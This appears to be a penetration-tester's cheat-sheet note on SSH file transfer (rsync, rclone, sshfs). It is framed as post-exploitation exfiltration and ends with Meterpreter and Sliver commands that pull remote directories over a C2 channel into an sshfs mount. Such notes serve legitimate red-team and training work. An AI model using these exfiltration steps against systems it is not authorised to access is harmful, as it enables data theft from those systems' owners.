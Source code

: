 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - ssh
  - linux
---
```

# Client

## 01 - Download

### 1.1 - Rsync

> [!IMPORTANT] Conditions
> The SSH server must have [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/Rsync|`rsync`]] installed.

```
$ rsync -r[v]huzPe "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <username>@<IP>:<file_source> <file_destination>
```

## 02 - Upload

### 2.1 - Rsync

```
$ rsync -r[v]huPze "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <file_source> <username>@<IP>:<file_destination>
```

> [!CAUTION]
> `--remove-source-files` flag will remove the files from the source directory. Think of it as moving all the data to the destination then cleans up the source.

```
$ rsync --remove-source-files -r[v]huPze "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <file_source> <username>@<IP>:<file_destination>
```

### 2.2 - RClone

Specifying a port number is optional unless a SSH port number has changed

```
$ rclone config create SFTPserver sftp host <IP> user <username> [port <PORT>] pass <password> --config sftphost.conf
```

## 03 - SSHFS

Mount SSH server as a filesystem

```
$ sudo mkdir /mnt/ssh_filesystem && sudo chown $USER:$USER /mnt/ssh_filesystem/

$ sshfs <username>@<IP>:/path/to/remote/directory/ /mnt/ssh_filesystem/ -C [-p <PORT>]
```

To unmount the filesystem

```
$ fusermount -u /mnt/ssh_filesystem/
```

### 3.1 - Use Cases

#### 3.1.1 - Exfiltration over C2 channel

##### 3.1.1.1 - Metasploit

```
meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/
```

##### 3.1.1.2 - Sliver

```
sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Cross Platform/RClone|RClone]]

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Cross Platform/C2 Frameworks/Metasploit|Metasploit: Data Exfiltration]]

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Cross Platform/C2 Frameworks/Sliver|Sliver: Data Exfiltration]]

### Source Repository

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)